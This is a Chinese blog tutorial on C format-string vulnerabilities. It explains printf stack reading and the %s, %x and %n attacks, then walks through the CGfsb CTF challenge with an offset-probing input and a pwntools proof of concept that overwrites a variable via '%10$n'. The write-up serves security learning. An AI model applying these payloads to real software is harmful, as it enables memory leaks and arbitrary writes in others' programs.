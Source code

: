 ```yaml
---
layout: post
title:  "格式化字符串漏洞"
date:   2023-09-10 00:00:00 +0800
categories: 安全
tags: pwn format-string
comments: true
mathjax: true
copyrights: 原创
---
```


在 C 语言中，`printf` 函数的定义如下：

```c
int printf(const char *format, ...)
```

可以看到，`printf` 函数只有第一个参数是必须的，剩下都是可选的参数，编译器也不会检查参数个数是否正确。因此下面的代码也是正确的：

```c
printf("%d %d", a);
printf("%d");
```

这里我直接拿之前做的 slides 演示一下这一过程。

假设我们要运行正常的 `printf` 语句

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b, &c);
```

程序会首先按照下图的方式把 `printf` 函数的参数压入栈中。当遇到第一个 `%d` 时，`printf` 函数内部的指针会向高地址移动，读取传入的参数：

<img src="/assets/post/images/formatstring1.webp" alt="formatstring1" style="zoom: 40%;" />

遇到第二个 `%d` 后，会继续移动：

<img src="/assets/post/images/formatstring2.webp" alt="formatstring2" style="zoom:40%;" />

遇到 `%08x` 后，会继续移动：

<img src="/assets/post/images/formatstring3.webp" alt="formatstring3" style="zoom:40%;" />

至此，成功执行了这个函数。

那如果我少传入了一个参数呢？也就是运行

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b);
```

此时，在遇到前两个 `%d` 时，和之前是一样的。但当读取到 `%08x` 时，指针继续向高地址移动，这时指针指向的已经不是我的参数，而是栈中的其它字节了！

<img src="/assets/post/images/formatstring4.webp" alt="formatstring4" style="zoom:40%;" />

`printf` 可不会去检查我传入的参数够不够、指针指向的是什么东西，它只会直接输出。这就给了我们可乘之机！

在攻击之前，我们先复习一下 `format` 中常用的占位符：

| 符号 | 含义                          | 传递方式 |
| :--: | ----------------------------- | :------: |
| `%d` | 10 进制数                     |    值    |
| `%x` | 16 进制数                     |    值    |
| `%p` | 指针地址                      |    值    |
| `%s` | 字符串                        |   引用   |
| `%n` | 到目前位置输出的字符 bytes 数 |   引用   |

下面我们考虑几种攻击形式：

- ```c
  printf ("%s%s%s%s%s%s%s%s%s");
  ```

  此时程序会把指针指向的内容作为地址读取，并到该地址读取字符串。

  然而，指针指向的内容很可能不是个地址，然后导致程序崩溃。

- ```c
  printf ("%08x %08x %08x %08x");
  ```

  这样的代码可以用于查看内存。为了更方便理解，我们考虑下面的程序：

  ```c
  int main(int argc, char *argv[])
  {
     char user_input[100];
     scanf("%s", user_input); /* getting a string from user */
     printf(user_input);      /* Vulnerable place */
     return 0;
  }
  ```

  当输入 `\x11\x45\x14\x00 %x %x %x %x %s` 时，其内存栈如图所示：

  <img src="/assets/post/images/formatstring5.webp" alt="formatstring5" style="zoom:40%;" />

  由于 `printf` 输出的是 `user_input`，因此 `printf` 自己的内部指针会从 `user_input` 的地址 + 1 处开始读取。而 `user_input` 的具体内容存储在地址更高的地方，我们的 4 个 `%x` 使得指针移动过了无意义的部分，最终指向了我们自己输入的 `0x11451400`，而此时的 `%s` 会直接输出地址 `0x11451400` 中的内容。
  
  当然，这里为了方便起见，我们假设 `user_iput` 的实际内容就存储在其地址 + 5 的位置，因此使用了 4 个 `%x` 来跳过无意义的部分。在实际操作中，我们需要根据实际情况来取得地址偏移。
  
  如此一来，我们可以看到内存中任意位置的内容。
  
- ```c
  printf (“114514%n", &i);
  ```

  正如前文所述，`%n` 表示的是已经输出了多少个 bytes。通过这种方法，我们可以向内存中写入任意数据。

下面，我们以攻防世界 CGfsb 为例进行实操。

扔进 ida 可以提取到

```c
puts("leave your message please:");
fgets(s, 100, stdin);
puts("your message is:");
printf(s);
if ( pwnme == 8 )
{
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
}
else
{
    puts("Thank you!");
}
```

很容易看出，`printf(s)` 一句是存在漏洞的。我们的目标是将 `pwnme` 变量修改为 8。

- 我们的第一步是要确定地址偏移，也就是确定我们输入的 `s` 的内容距离 `s` 的地址存储的位置有多远。

  我们直接输入

  ```plaintext
  leave your message please:
  AAAA%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
  your message is:
  AAAAffb7929e-f7fa55a0-00f0b5ff-ffb792ce-00000001-000000c2-616148fb-0000000a-00000000-41414141-78383025-3830252d-30252d78
  ```

  这里可以看到我们输入的 `AAAA`（即 `41414141`）偏移了 10 个 bytes。也就是说，我们要让 `printf` 的内部指针移动 10 下才能移动到我们输入的内容的位置。

- 然后确定 `pwnme` 变量的位置。我们在 ida 中可以看到，其位置为 `0x0804A068`。

- 最后可以编写 POC 了。

  ```py
  from pwn import *
  
  p = process('./pwn')
  p.recvuntil("leave your message please:\n")
  payload = p32(0x804A068) + b'a' * 0x4 + b'%10$n'
  p.sendline(payload)

  p.interactive()
  ```

  这里注意的是，我们多填充了 4 个 a，目的是为了让 `pwnme` 计算得到 8。
